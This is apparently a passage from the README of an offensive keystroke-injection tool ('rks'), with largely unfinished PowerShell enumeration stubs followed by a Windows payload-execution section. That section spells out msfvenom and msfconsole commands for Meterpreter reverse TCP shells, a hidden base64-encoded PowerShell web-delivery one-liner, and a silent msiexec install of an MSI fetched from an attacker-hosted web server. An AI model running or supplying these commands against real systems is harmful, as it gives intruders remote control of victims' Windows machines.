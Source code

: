 #### Powershell

Local machine enumeration (TODO)

```
$ cat recon_local_enum_cmdlets.txt

$ rks -c "powershell.exe" -m dialogbox

$ rks -c recon_local_enum_cmdlets.txt
```

Active directory enumeration (TODO)

```
$ cat recon_ad_enum_cmdlets.txt

$ rks -c "powershell.exe" -m dialogbox

$ rks -c recon_ad_enum_cmdlets.txt
```

### 0x02 - Execute Payload

#### Windows

Execute the payload while reading the contents of the powershell.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh -o payload.ps1

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport <PORT>; run"

$ rks -c "powershell.exe" -m dialogbox

$ rks -c payload.ps1
```

Execute an powershell oneliner payload using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 2; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; run"

$ rks -c "cmd.exe" -m dialogbox

$ rks -c "powershell.exe -nop -w hidden -e <base64_payload>"
```

Execute the payload with `msiexec.exe` while hosting a webserver.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f msi -o payload.msi

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport <PORT>; run"

$ sudo python -m http.server 80

$ rks -c "msiexec /quiet /qn /i http://<attacker_IP>/payload.msi" -m dialogbox
```
